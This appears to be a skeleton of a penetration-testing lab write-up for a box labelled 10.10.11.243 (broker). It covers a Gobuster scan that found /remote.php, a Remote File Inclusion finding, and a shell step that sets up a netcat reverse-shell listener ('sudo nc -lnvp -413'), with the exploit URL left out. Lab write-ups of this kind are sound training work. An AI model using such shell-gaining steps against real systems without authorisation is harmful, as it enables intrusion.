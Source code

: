 # Website

Screenshot of website index page:

![[Pasted image 20210813173305.png]]

## Enumerating Tech Stack

### Examining Source

### Enumerating PHP Version

## Gobuster

I ran [[Labs/10.10.11.243 (broker)/05 - Enumeration#Gobuster|Gobuster]] - it found `/remote.php`.

## Remote File Inclusion

I found a Remote File Inclusion vulnerability on the `/remote.php` site.

### Testing RFI

Outline process of testing parameters on page for RFI...

### Gaining a Shell

Outline process of debugging shell execution...

Summary of commands used to gain shell:
- Start a listener with `sudo nc -lnvp -413`
- Visit the following url: ...